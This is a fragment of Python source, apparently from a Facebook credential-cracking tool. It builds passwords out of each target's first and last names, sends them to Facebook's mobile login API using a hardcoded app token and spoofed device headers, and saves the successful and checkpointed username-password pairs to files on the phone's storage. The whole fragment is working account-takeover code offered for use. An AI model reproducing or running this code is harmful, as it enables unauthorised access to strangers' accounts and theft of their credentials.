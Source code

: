                                 data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [NINS-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/AVI-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [INNOCENT-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/AVI-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def api1(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [NINS] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(f' ')[0]
                        try:
                                ln = names.split(f' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace(f'first',fn.lower()).replace(f'First',fn).replace(f'last',ln.lower()).replace(f'Last',ln).replace(f'Name',names).replace(f'name',names.lower())